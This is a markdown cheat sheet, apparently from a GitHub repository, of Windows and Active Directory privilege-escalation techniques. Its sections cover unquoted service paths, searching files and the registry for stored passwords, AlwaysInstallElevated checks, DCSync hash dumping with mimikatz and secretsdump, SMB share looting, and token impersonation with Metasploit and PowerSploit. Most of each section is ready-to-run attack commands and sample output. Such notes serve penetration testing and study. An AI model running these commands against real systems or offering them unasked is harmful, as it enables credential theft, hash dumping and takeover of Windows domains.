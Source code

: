 # Windows Privilege Escalation

__Privilege Escalation Notes for Active Directory__

## Unquoted Service Paths

It is possible to escalate privileges if there's a running service, of which the service binary which is running is not quoted. Not wrapping binary paths can allow us to place a malicious binary in place of the path which later can get executed at service restart.

__Scenario__

There's a program running in windows system:

C:\Applications\Web Server\webserver.exe

In this case, we can place a malicious binary at C:\Applications\Web.exe which will get executed as the previous path isn't enclosed in quotes, windows will execute the binary before the whitespace " ".


__Looking for unquoted service paths__

```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```
PowerSploit module:

```powershell
Get-ServiceUnquoted
```
---

## Cleartext passwords

Administrators/users might save sensitive information like login credentials across the machines, we can try looking for them.

```batch
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini

# Find all those strings in config files.
dir /s *pass* == *cred* == *vnc* == *.config*

# Find all passwords in all files.
findstr /spin "password" *.*
findstr /spin "password" *.*

# Finding credentials in windows registry

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

# Putty clear text proxy credentials
reg query" HKCU\Software\SimonTatham\PuTTY\Sessions"
```
---
## AlwaysInstallElevated

AlwaysInstallElevated is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions. However, granting users this ability is a security concern because it is too easy to abuse this privilege.   For this to occur, there are two registry entries that have to be set to the value of “1” on the machine:

```batch
# Querying windows registry for "AlwaysInstallElevated"

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
---
## DCSync Attack

This attack allows an attacker to mimic as Domain Controller and dump hashes. We must have foothold of a user with "Domain Replication Service Remote Protocol" privileges to perform this attack.

```powershell
# Using mimikatz to perform DCSync
Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt /domain:domain-corp.local"'

# Using "Invoke-DCSync" PS module (https://gist.github.com/monoxgas/9d238accd969550136db)
Invoke-DCSync -PWDumpFormat
```

```bash
# Using secretsdump.py to perform DCSync Attack
secretsdump.py -just-dc <user>:<password>@<ipaddress>
```
---
## Open Shares

There can be open shares in the network which can expose sensitive information.

```bash
# Null Session
smbclient -I 10.10.10.100 -L ACTIVE -N -U ""

# Guest login
smbclient -I 10.10.10.100 --user "invalidUser"
```

Downloading a folder recursively

```bash
smbclient //10.0.0.1/Share --user=User123
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> lcd '/path/to/go/'
smb: \> mget *
```
---

## Token Impersonation

Tokens include privileges and identity of a user, they act similar to how cookies work for websites. Tokens are present to allow us to use the system without providing credentials at every action. 

If any user logs in, tokens are saved in the machines and if an attacker gets hold of those tokens, we can impersonate the user and execute commands on behalf of them.

**Metasploit**

```bash
# Using metasploit for token impersonation

meterpreter > use incognito
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
PC1-DCORP\Administrator

Impersonation Tokens Available
========================================
NT AUTHORITY\ANONYMOUS LOGON

meterpreter > impersonate_token PC1-DCORP\Administrator
[+] Delegation token available
[+] Successfully impersonated user SNEAKS.IN\Administrator

meterpreter > getuid
Server username: PC1-DCORP\Administrator
```
**PowerSploit**
```powershell
# Using PowerSploit module (Invoke-TokenManipulation)

Invoke-TokenManipulation -ImpersonateUser -Username "PC1-DCORP"

# Spawning a process or executing commands
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "cmd.exe"
```
